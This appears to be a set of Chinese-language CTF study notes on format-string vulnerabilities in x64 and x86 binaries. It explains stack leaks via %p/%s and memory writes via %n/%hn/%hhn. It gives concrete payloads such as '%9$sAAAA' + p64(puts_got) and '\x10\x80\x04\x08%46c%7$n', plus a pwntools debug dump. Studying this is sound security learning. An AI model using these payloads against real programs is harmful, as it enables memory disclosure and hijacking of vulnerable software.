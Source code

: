   * %， '%'字面值，不接受任何 flags, width。

#### x64 fmt - axb_2019_fmt64
会被\x00截断，要先填充8个字节。再+地址 ，举例： leak出来偏移8个地址，那么偏移8开始payload(8Bytes), 地址在第9位偏移(8Bytes) 

"%9$sAAAA" + p64(puts_got)

```sh
[DEBUG] Sent 0x11 bytes:                                                                   
    00000000  25 39 24 73  41 41 41 41  18 10 60 00  00 00 00 00  │%9$s│AAAA│··`·│····│
```

#### fmt - read

* int printf( const char* format, ...);

* rdi, rsi, rdx, rcx, r8, r9, STACK
    * x64 calling convention
    * rdi, rsi, rdx, r10, r8, r9, (push to stack) for system call
    * return value is stored in rax
* rdi -> fmt
* %d, %p, %s, %c, %x -> read data on the stack
* information leak

x64 正常参数是按顺序放  rdi, rsi, rdx, rcx, r8, r9, STACK的。

实际输入 %x%x 就只是把 format 放到 rdi，那么就会直接读出 stack 上面的内容。就把 stack leak 出来。

能控 formatstring, 从第6个开始就可以从 stack 上一直读了。register内容读完就是 stack 的值了

pintf(buf);
​```c
input: "aaaaaaa"
output: "aaaaaaa"

input: "%p.%p.%p"
output: "0x7fbdb0e858b0, 0x1, 0x3"
        rdi              rsi  rdx

input: "%3$p"
output: "0x3"

input: "%p.%p.%p.%p.%p.%p.%p.%p.%p"
output: "0x7fbdb0e858b0, 0x1, 0x7ffff7dd48b0, 0x555555554846.0x4.0x7052e7052e7025.0x252e70252e70252e"
        rdi              rsi  rdx              rcx            r8  r9               stack

已进入main函数了 -8对齐
x/64gx $rsp-8

```
BambooFox-2018-2019年合集-107学年社课 (P2. 程式安全-pwn2)

#### fmt - write
123456%n78%n, &c, &d // n前面是6个字符 c=6 , d前面8个字符 d=8

%n   --- 一次写入4个字节
%hn  --- 一次写入2个字节
%hhn --- 一次写入1个字节

偏移是7的, 将0x08048010地址修改为50
\x10\x80\x04\x08%46c%7$n 

将已输出之字元数目当成interger值（4bytes），写入address。

e.g
​```c
// fmt_write.c
int main()
{
```